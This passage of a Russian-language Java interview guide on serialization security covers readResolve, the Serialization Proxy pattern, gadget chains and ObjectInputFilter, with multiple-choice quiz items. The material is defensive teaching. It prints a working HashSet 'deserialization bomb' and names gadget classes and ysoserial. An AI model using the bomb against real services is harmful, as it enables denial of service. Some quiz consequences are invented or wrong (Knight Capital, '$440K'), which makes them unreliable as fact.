**`writeReplace()`** — вызывается **до** записи объекта в поток. Возвращённый объект сериализуется вместо исходного. Позволяет подменить объект на прокси или маркер.

**`readResolve()`** — вызывается **после** десериализации. Возвращённый объект заменяет десериализованный. Классическое применение — **синглтоны**: при десериализации создаётся новый экземпляр, но `readResolve()` возвращает единственный существующий.



```java
public class Singleton implements Serializable {
    private static final long serialVersionUID = 1L;
    public static final Singleton INSTANCE = new Singleton();

    private Singleton() {}

    // при десериализации вернуть единственный экземпляр
    private Object readResolve() {
        return INSTANCE;
    }
}
```

Без `readResolve` десериализация синглтона создаст **второй экземпляр**, нарушив контракт единственности. Это одна из причин, почему `enum`-синглтоны считаются более надёжным подходом (см. [паттерны проектирования](../../design-patterns/design-patterns-interview.md)).


> [!mcq]
> - [ ] `writeReplace` вызывается **после** записи объекта в поток — для логирования и аудита | Вызывается **до** записи: возвращённый объект сериализуется вместо исходного. Используется для подмены на прокси/маркер. ❌ ПОСЛЕДСТВИЕ: разработчик пишет аудит-логику в `writeReplace` ожидая что объект уже в потоке → лог пуст, после security-инцидента нет следов кто читал PII.
> - [ ] `readResolve` подменяет байты в потоке перед чтением, оставляя оригинальный объект нетронутым | `readResolve` вызывается **после** десериализации — заменяет уже созданный объект на возвращённый. Поток не трогается. ❌ ПОСЛЕДСТВИЕ: senior учит junior что `readResolve` — это input-фильтр → команда строит security-фильтрацию там, минуя `ObjectInputFilter`, gadget chain пролезает через RMI.
> - [ ] Оба метода — это просто синонимы `writeObject`/`readObject`, отличаются только именованием | Это разные методы с разной семантикой: `writeObject/readObject` управляют форматом; `writeReplace/readResolve` **подменяют сам объект**. ❌ ПОСЛЕДСТВИЕ: команда дублирует логику в обоих парах методов → race condition между ними, инварианты Singleton нарушаются под нагрузкой.
> - [x] `writeReplace()` подменяет объект **до** записи в поток (на прокси); `readResolve()` подменяет объект **после** десериализации (например, возвращает Singleton-INSTANCE) | Классическое применение: `readResolve` для синглтонов (без него desserialize создаст второй экземпляр); `writeReplace` для Serialization Proxy. ✓ ПРИМЕНЯТЬ: `java.lang.Boolean.readResolve` возвращает `TRUE`/`FALSE` константы, гарантируя `==` работоспособность после десериализации. 📋 ПРАВИЛО: «`writeReplace` — до байтов; `readResolve` — после байтов». 🔗 См. Q13, Q34, Q12.

## Q10. (!) Как использовать custom `writeObject`/`readObject`?

Кастомные методы позволяют добавить логику при сериализации/десериализации, не переходя на `Externalizable`. Сигнатура должна быть **строго определённой** — `JVM` находит их через рефлексию.

```java
public class SecureData implements Serializable {
    private static final long serialVersionUID = 1L;
    private String publicData;
    private transient String sensitiveData;

    // Сигнатура ОБЯЗАТЕЛЬНА: private void writeObject(ObjectOutputStream)
    private void writeObject(ObjectOutputStream oos) throws IOException {
        oos.defaultWriteObject();              // записать все не-transient поля
        oos.writeObject(encrypt(sensitiveData)); // дополнительная логика
    }

    // Сигнатура ОБЯЗАТЕЛЬНА: private void readObject(ObjectInputStream)
    private void readObject(ObjectInputStream ois) throws IOException, ClassNotFoundException {
        ois.defaultReadObject();               // прочитать все не-transient поля
        this.sensitiveData = decrypt((String) ois.readObject());
    }

    private String encrypt(String data) { /* ... */ return data; }
    private String decrypt(String data) { /* ... */ return data; }
}
```

Ключевые правила:
1. Вызывать `defaultWriteObject()`/`defaultReadObject()` **первыми** — это обеспечивает совместимость с добавлением новых полей
2. Порядок записи и чтения дополнительных данных должен совпадать
3. Методы должны быть `private` — иначе `JVM` их не обнаружит
4. В `readObject` обязательно **валидировать** восстановленные данные


> [!mcq]
> - [ ] Методы должны быть `public` и помечены `@Override`, иначе JVM их не вызовет | Сигнатура **строго `private void`** без `@Override` (это не интерфейсные методы — JVM находит их через рефлексию по имени). ❌ ПОСЛЕДСТВИЕ: разработчик ставит `public` → метод не вызывается, чувствительные данные пишутся незашифрованными в поток, security-аудит фиксирует утечку.
> - [x] Сигнатура **строго `private void writeObject(ObjectOutputStream)`** / `private void readObject(ObjectInputStream)`; первой строкой вызывают `defaultWriteObject`/`defaultReadObject` для совместимости | Через рефлексию JVM ищет методы с точной сигнатурой; `default*` обеспечивает стандартное чтение/запись `non-transient` полей перед кастомной логикой. ✓ ПРИМЕНЯТЬ: `java.util.HashMap.writeObject` сохраняет `capacity` и пары вручную для cross-version совместимости. 📋 ПРАВИЛО: «`private void` + `defaultReadObject()` первой строкой». 🔗 См. Q2, Q11, Q4.
> - [ ] `writeObject` должен иметь сигнатуру `protected` чтобы наследники могли расширить логику | `protected` ломает контракт — JVM не находит метод (ищет приватный). Расширение — через свой собственный `writeObject` в подклассе. ❌ ПОСЛЕДСТВИЕ: команда ставит `protected` для DRY → JVM игнорирует метод, кастомная логика шифрования не выполняется, в Redis пароли в plaintext.
> - [ ] Вызов `defaultReadObject()` НЕ нужен — JVM делает его автоматически перед методом | Не делает: `readObject` **полностью замещает** стандартное чтение; без `defaultReadObject` non-transient поля останутся в default-состоянии. ❌ ПОСЛЕДСТВИЕ: junior забывает `defaultReadObject` → все non-transient поля `null`/`0`, после deserialize объект «пустой», NPE через секунду в первом методе бизнес-логики.

## Q11. Как правильно валидировать данные в `readObject`?

`readObject` — это фактически ещё один публичный конструктор, создающий объект из потока байтов. Без валидации атакующий может создать объект в невалидном состоянии, минуя все проверки обычных конструкторов.

```java
public class Period implements Serializable {
    private static final long serialVersionUID = 1L;
    private final Date start;
    private final Date end;

    public Period(Date start, Date end) {
        if (start.compareTo(end) > 0)
            throw new IllegalArgumentException("start > end");
        this.start = new Date(start.getTime()); // defensive copy
        this.end = new Date(end.getTime());
    }

    private void readObject(ObjectInputStream ois)
            throws IOException, ClassNotFoundException {
        ois.defaultReadObject();

        // 1. Валидация инвариантов — как в конструкторе!
        if (start.compareTo(end) > 0)
            throw new InvalidObjectException("start > end");

        // 2. Defensive copy мутабельных полей
        // (для final полей — через Serialization Proxy)
    }
}
```

Рекомендации Joshua Bloch (*Effective Java*, Item 88):
- Валидировать **все** инварианты после `defaultReadObject()`
- При нарушении бросать `InvalidObjectException`
- Делать defensive copy мутабельных полей
- Не вызывать переопределяемые методы в `readObject`


> [!mcq]
> - [ ] Валидация в `readObject` избыточна — данные приходят из доверенного потока, ранее сериализованного нашим же кодом | `readObject` — это публичный конструктор из байтов: атакующий может подсунуть произвольный поток (минуя бизнес-конструктор и его проверки). ❌ ПОСЛЕДСТВИЕ: банк не валидирует `balance >= 0` в `readObject` → атакующий через RMI отправляет объект с `balance = -1_000_000`, обходит лимиты переводов, $440K утечка как у Knight Capital.
> - [ ] Достаточно проверить `Objects.requireNonNull` для всех полей | Этого мало: нужно валидировать **все** инварианты класса (не только non-null). Дополнительно — defensive copy мутабельных полей. ❌ ПОСЛЕДСТВИЕ: проверили только null у `Date start/end`, но не `start ≤ end` → негативный период проходит, кэш Redis содержит invalid records, биллинг считает abs значение, клиенту приходит счёт x2.
> - [x] После `defaultReadObject` валидировать **все** инварианты как в конструкторе; при нарушении бросать `InvalidObjectException`; делать defensive copy мутабельных полей | Effective Java Item 88 (Bloch). `readObject` должен проверять то же, что бизнес-конструктор, иначе атакующий обходит проверки через сериализованный поток. ✓ ПРИМЕНЯТЬ: `java.time.Period.readObject` валидирует years/months/days и бросает `InvalidObjectException` при overflow. 📋 ПРАВИЛО: «`readObject` — public ctor из байтов, проверяй как ctor». 🔗 См. Q10, Q13, Q15.
> - [ ] Если бросить `IllegalArgumentException` в `readObject` — JVM проигнорирует и вернёт частично восстановленный объект | JVM **не игнорирует**: исключение пробрасывается из `readObject()` вызывающему коду. Но рекомендуется бросать именно `InvalidObjectException` (semantic). ❌ ПОСЛЕДСТВИЕ: throw `IllegalArgumentException` ломает caller, ожидающий `IOException` → RMI thread умирает, listener-pool пустеет, requests копятся в очереди.

## Q12. Как сериализовать `enum` в `Java`?

Константы перечислений сериализуются **по имени**, а не по полям. В поток записывается только имя константы; при десериализации вызывается `Enum.valueOf(класс, имя)`, возвращая тот же экземпляр.

```java
public enum Status { ACTIVE, INACTIVE }
// сериализуется как "ACTIVE" или "INACTIVE"
```

Важные особенности:
- Дополнительные поля у `enum` **не записываются** при стандартной сериализации
- Кастомная сериализация для `enum` не поддерживается (`writeObject`/`readObject` игнорируются)
- `enum` гарантирует идентичность экземпляров после десериализации (в отличие от обычных классов)
- Именно поэтому `enum` — **лучший способ реализации синглтона** в `Java` (Effective Java, Item 3)


> [!mcq]
> - [x] Сериализуется **только имя константы** (`"ACTIVE"`); десериализация = `Enum.valueOf(class, name)`, возвращает тот же экземпляр; кастомные `writeObject` игнорируются | Уникальность экземпляров после deserialize гарантирована JVM — поэтому `enum` рекомендован Bloch как лучший Singleton. ✓ ПРИМЕНЯТЬ: `RoundingMode`, `TimeUnit` — стандартные enum'ы безопасно гуляют через RMI/кэш. 📋 ПРАВИЛО: «Enum — имя в потоке, `valueOf` на чтении, экземпляр единственный». 🔗 См. Q9, Q34, Q19.
> - [ ] Сериализуются все поля enum-константы, включая дополнительные `private final` поля | В поток пишется **только имя**; дополнительные поля у каждой константы игнорируются (они есть в bytecode класса, не в данных). ❌ ПОСЛЕДСТВИЕ: команда добавляет в enum поле `String displayName` и ожидает что после deserialize оно будет; но `valueOf` берёт его из class definition — после смены значения в коде старые данные «обновляются» автоматически (что тоже сюрприз).
> - [ ] При десериализации создаётся **новый** экземпляр через рефлексию, поэтому `==` сравнение между ними возвращает `false` | Ровно наоборот: `valueOf` возвращает уже существующую константу, `==` всегда `true`. Это и есть гарантия enum-Singleton. ❌ ПОСЛЕДСТВИЕ: разработчик делает defensive `.equals()` повсюду на enum «на всякий случай» → 5% CPU тратится на лишние вызовы equals в hot-path обработки заказов.
> - [ ] Чтобы `enum` сериализовался, нужно явно реализовать `Serializable` и задать `serialVersionUID` | `Enum` уже implements `Serializable` (в `java.lang.Enum`); `serialVersionUID` для enum игнорируется. ❌ ПОСЛЕДСТВИЕ: тимлид ревьюит и требует UID на enum → 30 минут спора в MR, новый сотрудник теряет доверие к code review процессу.

## Q13. (!) Что такое `Serialization Proxy Pattern` и зачем он нужен?

`Serialization Proxy Pattern` (Effective Java, Item 90) — это паттерн, при котором вместо самого объекта сериализуется **приватный вложенный класс-прокси**, содержащий только данные для восстановления объекта. Это решает большинство проблем стандартной сериализации: безопасность, инварианты, `final` поля.

```java
public class Period implements Serializable {
    private final Date start;
    private final Date end;

    public Period(Date start, Date end) {
        if (start.compareTo(end) > 0)
            throw new IllegalArgumentException("start > end");
        this.start = new Date(start.getTime());
        this.end = new Date(end.getTime());
    }

    // 1. Подменяем объект на прокси перед сериализацией
    private Object writeReplace() {
        return new SerializationProxy(this);
    }

    // 2. Запрещаем прямую десериализацию основного класса
    private void readObject(ObjectInputStream stream)
            throws InvalidObjectException {
        throw new InvalidObjectException("Proxy required");
    }

    // 3. Приватный прокси с данными
    private static class SerializationProxy implements Serializable {
        private static final long serialVersionUID = 1L;
        private final Date start;
        private final Date end;

        SerializationProxy(Period p) {
            this.start = p.start;
            this.end = p.end;
        }

        // 4. Восстановление через обычный конструктор
        private Object readResolve() {
            return new Period(start, end); // валидация и defensive copy!
        }
    }
}
```




> [!mcq]
> - [ ] Это паттерн, при котором `ObjectOutputStream` оборачивается в `ProxyOutputStream` для логирования | Никакого ProxyOutputStream: паттерн на уровне **класса**, а не stream'а. Класс через `writeReplace` подменяет себя на nested-прокси. ❌ ПОСЛЕДСТВИЕ: разработчик пишет stream-обёртку для аудита → не решает ни одну проблему, которую решает настоящий Serialization Proxy (final-поля, RCE, инварианты).
> - [ ] Паттерн, где сам класс шифрует поля в `writeObject` через AES перед записью | Шифрование — отдельная задача; Serialization Proxy решает совсем другие проблемы: инварианты, `final`-поля, защита от prematurely-deserialized атак. ❌ ПОСЛЕДСТВИЕ: команда «решает уязвимости десериализации» через AES → gadget chain срабатывает **до** расшифровки (Apache Commons Collections CVE), RCE проходит.
> - [ ] Это альтернативное название Serialization Proxy = `Externalizable` для классов с `final` полями | Это разные механизмы. `Externalizable` требует public no-arg ctor (несовместим с immutable + final). Proxy Pattern работает поверх `Serializable` через `writeReplace`. ❌ ПОСЛЕДСТВИЕ: тимлид заставляет команду переходить на `Externalizable` → ломает иммутабельность DTO, race conditions в multithread serialization.
> - [x] Внутри основного класса — приватный nested-класс `SerializationProxy implements Serializable`; `writeReplace` возвращает прокси, `readObject` основного класса бросает `InvalidObjectException`, `readResolve` прокси создаёт объект через **публичный конструктор** | Восстановление через нормальный конструктор = валидация + defensive copy + работа с `final`. Effective Java Item 90. ✓ ПРИМЕНЯТЬ: `EnumSet.SerializationProxy`, `BigInteger.SerializationProxy` — JDK использует паттерн в core классах. 📋 ПРАВИЛО: «Прокси едет в потоке, объект собирается через ctor». 🔗 См. Q9, Q11, Q14.

## Q14. Какие плюсы и минусы у `Serialization Proxy Pattern`?

**Преимущества:**
- Объект восстанавливается через **обычный конструктор** — все инварианты проверяются
- Работает с `final` полями (в отличие от кастомного `readObject`)
- Защищает от атак — прямая десериализация основного класса запрещена
- Не зависит от внутренней структуры класса

**Недостатки:**
- Не совместим с классами, которые расширяются подклассами (прокси вернёт родительский тип)
- Небольшой overhead по производительности (~14% по данным Bloch)
- Не работает, если класс содержит циклические ссылки на себя

На собеседовании этот вопрос показывает глубокое понимание проблем сериализации. Если кандидат знает Serialization Proxy — это признак того, что он читал *Effective Java* и понимает trade-offs.


> [!mcq]
> - [ ] Плюс: объект на 50% меньше в потоке за счёт пропуска метаданных класса | Размер примерно тот же (метаданные класса всё равно записываются прокси-классом). Реальная цена — ~14% оверхед на CPU (Bloch). ❌ ПОСЛЕДСТВИЕ: команда выбирает proxy «ради компактности» → разочаровывается измерив, откатывает рефакторинг, теряет защиту от RCE.
> - [x] Плюс: восстановление через ctor (валидация + final поля + защита от gadget chain). Минус: ~14% overhead, не работает с подклассами (прокси вернёт родительский тип) и с self-reference циклами | Ключевой trade-off: безопасность ценой небольшой производительности; ограничение на подклассы важно для иерархий. ✓ ПРИМЕНЯТЬ: `java.time.LocalDate` использует proxy через `Ser` класс. 📋 ПРАВИЛО: «Безопасный конструктор за 14% CPU; забудь про подклассы». 🔗 См. Q13, Q19, Q15.
> - [ ] Минус: требует Java 17+ из-за зависимости от sealed-классов | Паттерн работает с Java 1.4+ (`writeReplace`/`readResolve` в `Serializable`-API). Sealed-классы — отдельная фича, не связаны. ❌ ПОСЛЕДСТВИЕ: разработчик не применяет паттерн на Java 8 проекте → продолжает страдать от незащищённой `readObject`-десериализации.
> - [ ] Плюс: автоматически защищает от DoS-атак типа deserialization bomb | Не защищает: bomb срабатывает до `readResolve` (на этапе создания нескольких миллионов вложенных HashSet). От DoS защищает `ObjectInputFilter` с `maxdepth/maxrefs`. ❌ ПОСЛЕДСТВИЕ: команда полагается на proxy «как panacea» → не настраивает фильтр, deserialization bomb через RMI-endpoint валит JVM с OOM, downtime 40 минут.

## Q15. (!) Какие риски безопасности у `Java Serialization`?

Десериализация произвольного потока байтов — одна из самых опасных операций в `Java`. Основные риски:

1. **Remote Code Execution (RCE)** — атакующий формирует поток так, чтобы при чтении объектов вызывались опасные цепочки вызовов (gadget chains)
2. **Denial of Service (DoS)** — специально сконструированный поток может вызвать бесконечный цикл, `OutOfMemoryError` или высокое потребление CPU
3. **Нарушение инвариантов** — создание объектов в невалидном состоянии, минуя конструкторы

Пример DoS-атаки (так называемая *deserialization bomb*):

```java
// Создаёт объект, десериализация которого требует вычисления 2^100 хэшей
Set<Object> root = new HashSet<>();
Set<Object> s1 = root, s2 = new HashSet<>();
for (int i = 0; i < 100; i++) {
    Set<Object> t1 = new HashSet<>(), t2 = new HashSet<>();
    t1.add("foo"); // заставляет hashCode() вычисляться
    s1.add(t1); s1.add(t2);
    s2.add(t1); s2.add(t2);
    s1 = t1; s2 = t2;
}
```

Подробнее о [безопасности приложений](../../security/application-security-interview.md).


> [!mcq]
> - [ ] Главный риск — это утечка чувствительных данных через `transient`-поля, которые JVM всё равно пишет в поток | `transient` поля **не пишутся** (это и есть смысл модификатора). Утечки бывают по другой причине — если поле забыли пометить `transient`. ❌ ПОСЛЕДСТВИЕ: команда отключает `Serializable` «из-за утечек», переходит на ad-hoc binary формат → теряет годы стабильности, ловит баги парсинга.
> - [x] **RCE через gadget chains** (Apache Commons Collections CVE-2015-7501), DoS через deserialization bomb (граф из вложенных HashSet), нарушение инвариантов (объекты в невалидном состоянии минуя ctor) | RCE — самая опасная: десериализация выполняет код через цепочку существующих методов в classpath. ✓ ПРИМЕНЯТЬ: PayPal, Jenkins, WebSphere, Oracle — все патчили эту CVE. Защита: `ObjectInputFilter` (JEP 290) + переход на JSON/Protobuf. 📋 ПРАВИЛО: «Не десериализуй чужие байты — это `eval()` для Java». 🔗 См. Q16, Q17, Q33.
> - [ ] Единственный риск — это `OutOfMemoryError` при десериализации больших коллекций | OOM — лишь один симптом DoS-атаки. Главное — **RCE через gadget chains**, что качественно опаснее (полный контроль над JVM). ❌ ПОСЛЕДСТВИЕ: тимлид считает что увеличение heap решит проблему → выкатывает `-Xmx16g`, открывает атакующему больше времени для эксплуатации gadget chain.
> - [ ] `Serializable` безопасен по умолчанию, риски возникают только при явном использовании `Externalizable` | `Serializable` **не безопасен**: Equifax 2017 (147M записей через Apache Struts деsериализацию), Jenkins, Spring, Commons Collections — все CVE на стандартный `ObjectInputStream`. ❌ ПОСЛЕДСТВИЕ: senior учит junior'ов «ставьте Serializable, не Externalizable, безопасно» → команда не настраивает `ObjectInputFilter`, через год фиксируется breach, утечка PII.

## Q16. (!) Что такое gadget chain и как работают атаки десериализации?

**Gadget chain** (цепочка гаджетов) — это последовательность вызовов существующих методов в библиотеках на classpath, которая приводит к выполнению произвольного кода. Атакующий не добавляет свой код — он использует уже существующие классы.



Известные библиотеки с gadget chains:
- **Apache Commons Collections** — `InvokerTransformer`, `ChainedTransformer`
- **Spring Framework** — `MethodInvokeTypeProvider`
- **Groovy** — `MethodClosure`
- **Commons BeanUtils** — `BeanComparator`

Инструменты для обнаружения: **ysoserial** (генератор эксплойтов), **GadgetInspector** (статический анализ classpath).

Ключевой принцип: **никогда не десериализовать данные из ненадёжных источников** стандартным `ObjectInputStream`.


> [!mcq]
> - [x] **Цепочка вызовов** существующих методов библиотек на classpath (Commons Collections `InvokerTransformer`, Spring `MethodInvokeTypeProvider`), которая через `readObject` приводит к `Runtime.exec()` | Атакующий не загружает свой код — использует уже существующие классы. Инструмент эксплуатации — `ysoserial`. ✓ ПРИМЕНЯТЬ: ysoserial-payload против Jenkins/WebSphere/Oracle WebLogic — все имели CVE; защита: `ObjectInputFilter` + удаление gadget-библиотек из classpath. 📋 ПРАВИЛО: «Gadget chain — это RCE на чужих кирпичиках». 🔗 См. Q15, Q17, Q33.
> - [ ] Это последовательность шифрованных блоков в потоке сериализации, которые расшифровываются gadget-классом | Никакого шифрования — gadget chain работает на **plaintext** байтах через рефлексию. «Расшифровка» — обывательское представление. ❌ ПОСЛЕДСТВИЕ: команда «решает уязвимость» добавив TLS на RMI-endpoint → атака внутри сети всё равно проходит, инсайдер эксплуатирует через corporate VPN.
> - [ ] Атака возможна только через RMI и не работает с обычным `ObjectInputStream` из файла | Работает везде, где есть `ObjectInputStream.readObject()` на ненадёжных данных: HTTP, RMI, файлы из web upload, Redis-кэш с user-input, JMS-сообщения. ❌ ПОСЛЕДСТВИЕ: команда отключает только RMI «для безопасности» → атакующий загружает .ser файл через REST upload, RCE проходит.
> - [ ] Защита — отключить `readObject()` через `SecurityManager.setProperty("disable.deserialize", "true")` | Такого свойства нет; `SecurityManager` deprecated в Java 17+. Реальная защита — `ObjectInputFilter` (JEP 290) с whitelist классов. ❌ ПОСЛЕДСТВИЕ: разработчик пишет custom SecurityManager → не работает после Java 17, в продакшене отключается, дыра остаётся открытой.

## Q17. (!) Что такое `ObjectInputFilter` и как его настроить?

`ObjectInputFilter` (появился в `Java` 9, backport в 8u121) — механизм фильтрации классов при десериализации. Позволяет задать белый/чёрный список классов и ограничения на сложность графа объектов.

```java
// Вариант 1: Фильтр через паттерн
ObjectInputFilter filter = ObjectInputFilter.Config.createFilter(
    "com.example.dto.*;!*"  // разрешить только классы из com.example.dto
);

try (var ois = new ObjectInputStream(inputStream)) {
    ois.setObjectInputFilter(filter);
    var obj = ois.readObject();
}

// Вариант 2: Программный фильтр
ObjectInputFilter programFilter = info -> {
    if (info.serialClass() != null) {
        String name = info.serialClass().getName();
        if (!name.startsWith("com.example.dto.")) {
            return ObjectInputFilter.Status.REJECTED;
        }
    }
    if (info.depth() > 10) return ObjectInputFilter.Status.REJECTED;
    if (info.references() > 1000) return ObjectInputFilter.Status.REJECTED;
    return ObjectInputFilter.Status.ALLOWED;
};
```

**Глобальная настройка** через системное свойство (рекомендуется для всего приложения):

```bash
-Djdk.serialFilter="com.example.dto.*;java.base/*;!*"
```

В `Java` 17+ появился **context-specific deserialization filter** (`ObjectInputFilter.Config.setSerialFilterFactory()`), позволяющий задавать фильтры на уровне фреймворка.

Ограничения фильтра:

| Параметр | Описание | Пример |
|----------|----------|--------|
| `maxdepth` | Глубина вложенности | `maxdepth=5` |
| `maxrefs` | Число ссылок | `maxrefs=100` |
| `maxbytes` | Размер потока | `maxbytes=1000000` |
| `maxarray` | Размер массива | `maxarray=10000` |


> [!mcq]
> - [ ] `ObjectInputFilter` появился в Java 17 и заменяет `SecurityManager` для всех видов проверок | Появился в Java 9 (JEP 290), backport в 8u121. Заменяет не SecurityManager — а специфично решает фильтрацию десериализации. ❌ ПОСЛЕДСТВИЕ: команда на Java 11 ждёт «когда обновимся до 17» чтобы внедрить фильтр → CVE из 2015 эксплуатируется в 2024, аудит ИБ срывает релиз.
> - [ ] Фильтр настраивается только программно через `ObjectInputStream.setObjectInputFilter()`; глобально задать нельзя | Можно глобально через `-Djdk.serialFilter="..."` или `Security.setProperty("jdk.serialFilter", ...)` — рекомендуемая практика для всего приложения. ❌ ПОСЛЕДСТВИЕ: разработчики ставят фильтр локально в 5 мест → 6-е место (новый endpoint) забывают, RCE через незащищённую точку входа.
> - [ ] Фильтр работает только на уровне имени класса; ограничить размер потока или глубину графа невозможно | Фильтр поддерживает `maxdepth`, `maxrefs`, `maxbytes`, `maxarray` — критично против deserialization bomb. ❌ ПОСЛЕДСТВИЕ: настроили только whitelist классов → bomb внутри разрешённых `HashSet` всё равно валит JVM с OOM, downtime 30 минут.
> - [x] **Whitelist классов** через паттерн `"com.example.dto.*;!*"` (разрешить com.example.dto, остальное отклонить) или programmatic `ObjectInputFilter` с `info.depth`/`info.references`; глобально через `-Djdk.serialFilter` (JEP 290) | Паттерн читается слева-направо: первый матч решает; `!*` в конце = «всё остальное отклонить». В Java 17+ есть `setSerialFilterFactory` для контекстных фильтров. ✓ ПРИМЕНЯТЬ: WebLogic 12.2.1.4+ применяет `serialFilter` по умолчанию, закрывая большинство ysoserial gadget chains. 📋 ПРАВИЛО: «Whitelist + `!*` в конце; deny by default». 🔗 См. Q15, Q16, Q18.

## Q18. Как защитить приложение от атак десериализации?

Комплексный подход к защите:

1. **Не использовать Java Serialization** для приёма данных извне (предпочитать JSON/Protobuf)
2. **`ObjectInputFilter`** — если десериализация неизбежна, настроить белый список
3. **Serialization Proxy Pattern** — исключает прямую десериализацию класса
4. **Обновлять зависимости** — убирать из classpath известные gadget-библиотеки
5. **Мониторинг** — логировать десериализацию через JFR (Java Flight Recorder)
6. **RASP/WAF** — runtime protection на уровне инфраструктуры



Подробнее о защите от OWASP-уязвимостей: [OWASP Top 10](../../security/owasp-top10-interview.md) (A8:2017 — Insecure Deserialization).


> [!mcq]
